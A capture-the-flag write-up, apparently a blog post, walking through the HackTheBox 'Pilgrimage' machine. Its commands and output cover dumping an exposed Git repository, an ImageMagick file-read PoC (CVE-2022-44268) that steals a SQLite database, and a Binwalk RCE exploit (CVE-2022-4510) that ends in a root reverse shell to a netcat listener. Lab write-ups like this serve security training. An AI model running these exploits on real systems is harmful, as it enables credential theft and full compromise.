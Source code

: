 ```yaml
---
title: "Pilgrimage"
date: 2023-07-13 17:02:00 +0800
categories: [HackTheBox]
tags: [cve, cve-2022-4510, sqlite, imagemagick, pspy]
image:
  path: /banners/pilgrimage.png
---
```


> Description : Pilgrimage is an easy-difficulty Linux machine featuring a web application with an exposed `Git` repository. Analysing the underlying filesystem and source code reveals the use of a vulnerable version of `ImageMagick`, which can be used to read arbitrary files on the target by embedding a malicious `tEXT` chunk into a PNG image. The vulnerability is leveraged to obtain a `SQLite` database file containing a plaintext password that can be used to SSH into the machine. Enumeration of the running processes reveals a `Bash` script executed by `root` that calls a vulnerable version of the `Binwalk` binary. By creating another malicious PNG, `CVE-2022-4510` is leveraged to obtain Remote Code Execution (RCE) as `root`.
{: .prompt-info }


# Enum

Let's start with a quick Nmap scan.

### Nmap Scan

```bash
root@Fs:.../HTB/Pilgrimage# nmap -p- -oN Nmap -sCV -T4 pilgrimage.htb 
# Nmap 7.80 scan initiated Sun Jun 25 16:17:30 2023 as: nmap -p- -oN Nmap -sCV -T4 pilgrimage.htb
Nmap scan report for pilgrimage.htb (10.10.11.219)
Host is up (0.34s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-server-header: nginx/1.18.0
|_http-title: Pilgrimage - Shrink Your Images
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 25 16:21:47 2023 -- 1 IP address (1 host up) scanned in 256.71 seconds
```

Let's check what's running on port 80.

![image](https://github.com/ACHUX21/Writeups/assets/130113878/17d81c17-c872-440d-b3e8-d94e01776e80)

It seems to be an upload server, Let's try uploading something;

![image](https://github.com/ACHUX21/Writeups/assets/130113878/a336d714-72c4-46a3-a3a6-c350a1b28554)


By reading the Nmap scan, we realized that there's a .git/ directory.
Let's try to dump its contents.

```bash
git-dumper http://pilgrimage.htb/ git/
```

```bash
root@Fs:.../HTB/Pilgrimage# ls git/
assets  dashboard.php  index.php  login.php  logout.php  magick  register.php  vendor
```
By reading the contents of those files, we found some interesting information.
It appears that it's using SQLite as the database.

![image](https://github.com/ACHUX21/Writeups/assets/130113878/0d63c601-be8e-4074-8e57-6efe1e773736)


![image](https://github.com/ACHUX21/Writeups/assets/130113878/727f3288-669e-441c-b466-4c3d51edac78)

It's using ImageMagick to convert images.

By conducting a Google search, I found a [! CVE-2022-44268](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC) (Common Vulnerabilities and Exposures) related to the discovered vulnerability.

let's try This POC

We have already identified the location where the DB stores data: "/var/db/pilgrimage".

Let's try to access this file.

```bash
root@Fs:.../Pilgrimage/imagemagick-lfi-poc# python3 generate.py  -f "/var/db/pilgrimage" -o exploit.png

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /var/db/pilgrimage
   [>] PoC PNG generated > exploit.png
root@Fs:.../Pilgrimage/imagemagick-lfi-poc# convert exploit.png result.png
```
Download Time:

```bash
root@Fs:.../Pilgrimage/imagemagick-lfi-poc# wget http://pilgrimage.htb/shrunk/64af576f46ee8.png
--2023-07-13 02:46:53--  http://pilgrimage.htb/shrunk/64af576f46ee8.png
Resolving pilgrimage.htb (pilgrimage.htb)... 10.10.11.219
Connecting to pilgrimage.htb (pilgrimage.htb)|10.10.11.219|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1628 (1.6K) [image/png]
Saving to: ‘64af576f46ee8.png’

64af576f46ee8.png                     100%[========================================================================>]   1.59K  --.-KB/s    in 0s      

2023-07-13 02:46:54 (205 MB/s) - ‘64af576f46ee8.png’ saved [1628/1628]

root@Fs:.../Pilgrimage/imagemagick-lfi-poc# convert 64af576f46ee8.png result.png
root@Fs:.../Pilgrimage/imagemagick-lfi-poc# identify -verbose result.png 
[output...]
```

Let's copy the "Raw profile type: " string and decode it using CyberChef.

From Hex;
![image](https://github.com/ACHUX21/Writeups/assets/130113878/6d9921f5-934c-4328-984e-1b34a93e5c39)

Let's Download the sqlite file
![image](https://github.com/ACHUX21/Writeups/assets/130113878/e4380801-0d68-4c84-b768-1710c9f1f2da)


Let's log in via SSH using those credentials.
![image](https://github.com/ACHUX21/Writeups/assets/130113878/02bd70c4-39d2-4bff-b2b9-160e853cfd00)

And we have successfully gained access .

# Priv-esc

```bash
emily@pilgrimage:~$ ls
linPEAS.sh  pspy64  user.txt
```

Let's run pspy64 first, followed by Linpeas, and hope to gather some valuable information.

After 10 years HAAHAH, we finally discovered some interesting findings.

```toml
2023/07/13 12:06:18 CMD: UID=0     PID=713    | /bin/bash /usr/sbin/malwarescan.sh
```
The content:

![image](https://github.com/ACHUX21/Writeups/assets/130113878/7dedbc7c-8cb4-41bd-adb3-cb2e889daecf)


I wasted a lot of time before realizing that Binwalk is outdated and has a CVE !! [Binwalk v2.3.2 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/51249)

Let's utilize the ExploitDB script to gain root access

```bash

root@Fs:.../Pilgrimage/privesc# python3 exploit.py random-image.png 10.10.14.xxx 9999

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.

root@Fs:.../Pilgrimage/privesc# scp binwalk_exploit.png emily@10.10.11.219:/var/www/pilgrimage.htb/shrunk/
emily@10.10.11.219's password: 
bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
binwalk_exploit.png                                                                                                  100% 1084     3.4KB/s   00:00    

```


and we have access
```bash
root@Fs:.../Pilgrimage/privesc# nc -lnvp 9999
Listening on 0.0.0.0 9999
Connection received on 10.10.11.219 46362
ls
_binwalk_exploit.png.extracted
_e.png.extracted
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
[1]+  Stopped                 nc -lnvp 9999
root@Fs:.../Pilgrimage/privesc# stty raw -echo;fg
nc -lnvp 9999
             root@pilgrimage:~/quarantine# export TERM=xterm-256color
root@pilgrimage:~/quarantine# export SHELL=/bin/bash
root@pilgrimage:~/quarantine# ls
_binwalk_exploit.png.extracted	_e.png.extracted
root@pilgrimage:~/quarantine# ls /root
quarantine  reset.sh  root.txt
root@pilgrimage:~/quarantine# 
```

Goodbye! 💜

